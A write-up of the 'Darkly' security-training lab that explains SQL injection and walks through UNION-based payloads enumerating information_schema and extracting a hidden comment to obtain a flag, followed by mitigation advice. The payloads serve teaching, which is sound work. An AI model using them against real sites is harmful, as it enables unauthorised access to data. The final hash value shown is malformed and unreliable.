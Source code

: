 # SQL Injection - Images

## What is it ?

Listed among the OWASP top 10 Web Application Security Risks, an injection "occur when untrusted data is sent to an interpreter as part of a command or query. The attacker’s hostile data can trick the interpreter into executing unintended commands or accessing data without proper authorization." (OWASP)

More precisely an SQL injection will trick an SQL interpreter.

## Some use cases

* accessing sensitive data and stealing / corrupting / deleting 
* injecting data
* taking host over
* denial of service

## Exploit on Darkly

### Context
On the `Search image` part of the site we are asked to enter an `IMAGE NUMBER`. The query outputs 3 fields:
	* the `ID` (image number) we made the query on
	* `Title`
	* `Url`

### Solution
As there is a potential SQL injection weakness, we do the following:

1. Trying to know how many columns there are in the original query (see below for the explanation about those commands): 
	* `1 UNION SELECT 1` outputs nothing
	* `1 UNION SELECT 1, 2` works fine so we guess there are two columns

2. Get the tables schema and names:
	* `1 AND 1=2 UNION SELECT table_schema, table_name FROM information_schema.tables`

3. Get the tables columns:
	* `1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns`

4. Combining all the information we got from those queries, we discover that there is a `list_images` table with some potentially interesting columns:
	* `1 AND 1=2 UNION SELECT comment, 1 FROM Member_images.list_images` outputs, for one of the images, `If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46`

5. Following the instructions above:
	* we decrypt the hash on [dcode](https://www.dcode.fr/fonction-hash#f0), what outputs `albatroz`
	* on the same website, we hash (shasum 256) `albatroz`, what outputs `f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d61885`


### More details about the SQL commands

* `UNION` is a command that allows to concatenate the results of two different queries. The two queries must have the same number of columns
* `AND 1=2` is a condition that makes the first query always `false`: it won't output anything and we will gain readability

## Some ways to avoid it

* never trust the user inputs : validate / filter / sanitize the data sent to the site:
	* in our example, check that the user input is only an integer
	* for other queries (for example involving strings), escape all the special chars
	* set a whitelist of accepted characters
* in case the injection succeeds:
	* use control commands like `LIMIT` in SQL
	* use principle of least privilege